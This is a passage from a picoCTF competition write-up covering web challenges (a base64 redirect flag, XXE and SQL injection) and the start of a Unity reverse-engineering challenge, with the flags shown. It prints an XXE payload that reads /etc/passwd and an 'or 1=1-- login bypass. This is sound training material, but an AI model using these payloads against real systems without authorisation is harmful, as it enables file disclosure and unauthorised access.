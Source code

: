 ```html
    <title>flag</title>
</head>
<body>
    <script>
        setTimeout(function () {
           // after 2 seconds
           window.location = "/next-page/id=bF90aGVfd2F5XzAxZTc0OGRifQ==";
        }, 0.5)
      </script>
    <p></p>
</body>
```
Decode both base64 encoding and we get the flag.
```
picoCTF{proxies_all_the_way_01e748db}
```

### • SOAP (100pts/xxe)
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

#### Steps:
The website is using XML to submit data to the server.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<data><ID>2</ID></data>
```
XXE is a web security vulnerability that allows an attacker to interfere with an application’s processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any backend or external systems that the application itself can access.
Read more: https://csea-iitb.github.io/IITBreachers-wiki/2020/07/22/XXE.html

Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the ID value.
```
picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```
### • More SQLi (200pts)
Given a website that prompts common login forms. Easy payload.
`` username: 'or 1=1-- | password: 'or 1=1-- ``

```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
```

## Reverse Engineering
### • No Way Out (200pts)
Given a unity game that we can play like an FPS game. The character is trapped in a four-walled prison but without roof. We also can see a big flag outside the prison. The goal is to escaped the building and get to the flag.
